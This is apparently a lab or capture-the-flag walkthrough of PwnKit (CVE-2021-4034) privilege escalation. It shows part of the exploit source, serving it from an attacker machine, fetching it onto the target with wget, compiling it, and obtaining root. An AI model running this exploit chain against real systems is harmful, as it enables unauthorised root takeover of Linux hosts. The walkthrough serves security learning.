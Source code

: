 At first we download the source to our attacker machine and save the file as `lpe.c`
```bash
$ cat lpe.c                    
/*
 * Proof of Concept for PwnKit: Local Privilege Escalation Vulnerability Discovered in polkit’s pkexec (CVE-2021-4034) by Andris Raugulis <moo@arthepsy.eu>
 * Advisory: https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034
 */
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

char *shell = 
        "#include <stdio.h>\n"
        "#include <stdlib.h>\n"
        "#include <unistd.h>\n\n"
...
```

Then we provide a web server to upload the file to the target.
```bash
$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Upload the file to the target.
```bash
cd /tmp
wget http://192.168.49.183/lpe.c
--2022-12-03 09:36:34--  http://192.168.49.183/lpe.c
Connecting to 192.168.49.183:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1267 (1.2K) [text/x-csrc]
Saving to: ‘lpe.c’

     0K .                                                     100% 3.16M=0s

2022-12-03 09:36:34 (3.16 MB/s) - ‘lpe.c’ saved [1267/1267
```

At our attacker machine we see that the file got uploaded.
```bash
$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.183.85 - - [03/Dec/2022 09:36:34] "GET /lpe.c HTTP/1.1" 200 -
```

Now we are compiling the file and set the permissions on the target.
```bash
gcc lpe.c -o lpe
chmod +x lpe
```

Exeucte the binary to get `root` access.
```bash
./lpe
id
uid=0(root) gid=0(root) groups=0(root),1000(296640a3b825115a47b68fc44501c828)
```
